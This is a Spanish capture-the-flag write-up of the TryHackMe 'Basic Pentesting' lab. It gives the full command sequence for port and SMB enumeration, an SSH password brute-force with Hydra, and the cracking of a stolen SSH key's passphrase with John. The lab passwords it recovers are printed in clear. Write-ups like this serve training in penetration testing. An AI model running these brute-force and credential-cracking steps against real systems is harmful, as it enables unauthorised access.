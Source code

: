 ```yaml
---
tags:
  - eJPT
title: Machine Basic pentesting
Category: Try Hack Me
comments: "true"
image: /assets/img/machines/Basicpentesting/Basicpentestingbanner.jpeg
---
```


## Introducción
En esta máquina, realicé un proceso completo de pentesting que incluyó enumeración de puertos, análisis de servicios expuestos, enumeración web y fuerza bruta sobre el servicio SSH. Utilicé herramientas como Nmap, Gobuster y Enum4Linux para descubrir rutas ocultas y usuarios activos. Luego, con técnicas de fuerza bruta y explotación de credenciales, conseguí acceso a dos usuarios diferentes en el sistema. Finalmente, mediante la extracción y cracking de una clave privada SSH, logré escalar privilegios y acceder a información sensible, capturando la flag correspondiente.

## Skills
- Brute forcing
- Hash cracking

## Enumeración
Ejecutamos un escaneo de puertos específicos sobre los puertos 22, 80, 139 y 445. El objetivo era identificar servicios expuestos y obtener información relevante para continuar con la fase de enumeración, detectando servicios como SSH, HTTP y SMB:

```bash
❯ nmap -sCV -p 22,80,139,445 10.10.248.211
Nmap scan report for 10.10.248.211
Host is up (0.24s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 87:6a:17:ed:4a:7b:81:74:ef:cd:ae:28:d4:b8:05:4d (RSA)
|   256 a5:81:26:1c:44:55:c6:c0:f4:9a:71:e9:24:21:e3:04 (ECDSA)
|_  256 ac:fd:32:0c:a3:db:9f:76:0b:33:a1:b4:21:ae:92:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
| smb2-time: 
| 
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.85 seconds
```
### Enumeración WEB
Accedemos a la interfaz web del servidor a través del puerto 80, en donde se muestra un mensaje simple indicando que el sitio está en mantenimiento:

![1](/assets/img/machines/Basic pentesting/1.jpeg)


```bash
❯ gobuster dir -u http://10.10.248.211 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.248.211
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 320] [--> http://10.10.248.211/development/]
```

Realicé una enumeración de directorios con el fin de identificar rutas ocultas en la aplicación web. Como resultado, encontré el directorio /development, lo que podría indicar la presencia de archivos de prueba o entornos de desarrollo expuestos.

![2](/assets/img/machines/Basic pentesting/2.jpeg)

Dentro de la ruta /development se encontraron dos archivos: dev.txt y j.txt. Estos archivos contienen una conversación interna del equipo, donde se destaca especialmente el servicio SMB, lo que sugiere que podría ser un punto relevante para la siguiente fase de la enumeración.


Tras identificar la importancia del servicio SMB, se procedió a realizar una enumeración exhaustiva sobre este servicio utilizando la herramienta enum4linux para obtener información detallada de los recursos compartidos, usuarios y posibles vulnerabilidades.

```bash
enum4linux -a 10.10.248.211
```

Mediante la enumeración con enum4linux, se descubrió la existencia de dos usuarios en el sistema: kay y jan, lo que permitió enfocar los siguientes pasos en obtener credenciales o acceder a recursos asociados a estas cuentas.

![3](/assets/img/machines/Basic pentesting/3.jpeg)

## Brute Forcing
Posteriormente, realicé un ataque de fuerza bruta contra el servicio SSH utilizando la herramienta Hydra, enfocándome en el usuario jan y utilizando el popular diccionario rockyou.txt para intentar descubrir la contraseña.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.248.211 ssh
```

Gracias al ataque de fuerza bruta, logré obtener la contraseña armando para el usuario jan.

```plaintext
Password: armando
```

Con la contraseña obtenida, accedí al servicio SSH usando el usuario jan. Una vez dentro, confirmé los privilegios del usuario ejecutando el comando id, el cual mostró que jan tiene un UID y GID propios, perteneciendo al grupo principal de usuario.

```bash
ssh jan@10.10.248.211
jan@ip-10-10-248-211:~$ id
uid=1001(jan) gid=1001(jan) groups=1001(jan)
```

Para continuar con la enumeración local, transferí la herramienta linPEAS desde mi máquina local hacia el directorio /tmp del servidor objetivo utilizando SCP, con el fin de identificar posibles vectores de escalada de privilegios.

```bash
scp linpeas.sh jan@10.10.248.211:/tmp
```

Después de transferir linPEAS, le asigné permisos de ejecución y lo lancé para realizar un escaneo automático en busca de posibles vulnerabilidades y configuraciones erróneas que pudieran permitir la escalada de privilegios.

```bash
jan@ip-10-10-248-211:/tmp$ chmod +x linpeas.sh
jan@ip-10-10-248-211:/tmp$ ./linpeas.sh
```

## Hash Cracking
La ejecución de linPEAS reveló la presencia de una clave privada SSH (id_rsa) perteneciente al usuario kay, lo cual podría facilitar el acceso a dicha cuenta si la clave no estuviera protegida por contraseña.

![4](/assets/img/machines/Basic pentesting/4.jpeg)

Luego de obtener la clave privada id_rsa del usuario kay, procedí a convertirla a un formato compatible con John the Ripper usando la herramienta ssh2john para intentar crackear la contraseña de la clave.

```bash
ssh2john kay_id_rsa > key.txt  
```

Seguidamente, utilicé John con el diccionario rockyou.txt para intentar descifrar la contraseña de la clave privada obtenida.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
```

Con esta técnica logré obtener la contraseña beeswax para la clave privada del usuario kay.

```bash
Password: beeswax
```

Con la contraseña recuperada, accedí por SSH como el usuario kay. Dentro de su directorio encontré un archivo llamado pass.bak, que contenía una contraseña aparentemente robusta y conforme a políticas de seguridad establecidas.

```bash
ssh -i kay_id_rsa kay@10.10.248.211
kay@ip-10-10-248-211:~$ ls
pass.bak
kay@ip-10-10-248-211:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

